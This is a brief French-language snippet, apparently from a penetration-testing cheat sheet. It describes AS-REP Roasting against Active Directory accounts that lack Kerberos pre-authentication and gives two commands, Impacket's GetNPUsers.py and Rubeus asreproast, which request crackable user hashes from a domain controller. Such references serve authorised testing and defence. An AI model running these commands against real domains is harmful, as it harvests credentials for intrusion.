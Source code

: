 AS-REP Roasting vide les hachages krbasrep5 des comptes d'utilisateurs pour lesquels la pré-authentification Kerberos est désactivée.

```sh
GetNPUsers.py dom.local/user:password -dc-ip 192.168.75.152 -request
```

```c
Rubeus.exe asreproast
```
